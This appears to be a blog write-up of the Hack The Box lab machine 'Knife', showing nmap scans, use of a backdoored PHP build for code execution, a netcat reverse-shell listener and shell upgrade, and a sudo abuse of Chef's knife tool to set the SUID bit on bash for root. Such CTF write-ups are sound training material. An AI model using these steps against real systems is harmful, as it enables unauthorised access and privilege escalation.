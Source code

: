 ```yaml
---
title:     "Hack The Box - Knife"
tags: [linux,easy,php,backdoor,cve,chef-workstation,sudo]
categories: HackTheBox
excerpt: "Knife is an easy rated machine on HackTheBox by [MrKN16H](https://www.hackthebox.eu/home/users/profile/98767). For the user part we will abuse a backdoored php version and for root sudo rights on the `Chef Workstation` binary `knife`."
image: /img/knife/info_card.png
---
```


Knife is an easy rated machine on HackTheBox by [MrKN16H](https://www.hackthebox.eu/home/users/profile/98767). For the user part we will abuse a backdoored php version and for root sudo rights on the `Chef Workstation` binary `knife`.

# User

## Nmap

As usual we start our enumeration off with an nmap scan against all ports, followed by a script and version detection scan against the open ones.

`All ports`
```php
$ sudo nmap -p- -T4  10.129.136.243
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-22 20:09 UTC
Nmap scan report for knife.htb (10.129.136.243)
Host is up (0.034s latency).
Not shown: 65526 closed ports
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http

Nmap done: 1 IP address (1 host up) scanned in 1311.09 seconds
```

`Script and version`
```php
$ sudo nmap -sC -sV -p 22,80 10.129.136.243
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-22 20:33 UTC
Nmap scan report for knife.htb (10.129.136.243)
Host is up (0.033s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.10 seconds
```

## Php Zerodium

Looking at a request in burp we can see that the the server is powered by php. Checking for the recent [php backdoor](https://www.bleepingcomputer.com/news/security/phps-git-server-hacked-to-add-backdoors-to-php-source-code/) we can see that it is indeed present on this system adding the required header in burp and calling the `id` command.

[![zerodium_poc](/img/knife/zerodium_poc.png)](/img/knife/zerodium_poc.png)

Having code execution on the server we can send a reverse shell in the next step. First we set up a listener.

```php
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
```

Afterwards we send the reverse shell and upgrade it.

[![zerodium_revshell](/img/knife/zerodium_revshell.png)](/img/knife/zerodium_revshell.png)

```php
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.136.243.
Ncat: Connection from 10.129.136.243:43786.
bash: cannot set terminal process group (884): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
james@knife:/$ export TERM=xterm
export TERM=xterm
james@knife:/$ ^Z
[1]+  Stopped                 nc -lnvp 7575
$ stty raw -echo;fg
nc -lnvp 7575

james@knife:/$
```

We can now read the user flag.

```php
$ wc -c /home/james/user.txt
33 /home/james/user.txt
```

# Root

## Chef workstation

On a first glance, we can see that the user james can run the command knife as root.

```php
james@knife:/$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

This belongs to [chef-workstation](https://downloads.chef.io/tools/workstation), a remote management tool.

```php
james@knife:~$ ls -la /usr/bin/knife
lrwxrwxrwx 1 root root 31 May  7 11:03 /usr/bin/knife -> /opt/chef-workstation/bin/knife
```

With this we can execute commands as the root user on the system and get to root easily by setting the suid bit on `bash`.

```php
james@knife:~$ sudo /usr/bin/knife exec -E 'exec "chmod +s /bin/bash"'; bash -p
bash-5.0# wc -c /root/root.txt
33 /root/root.txt
```
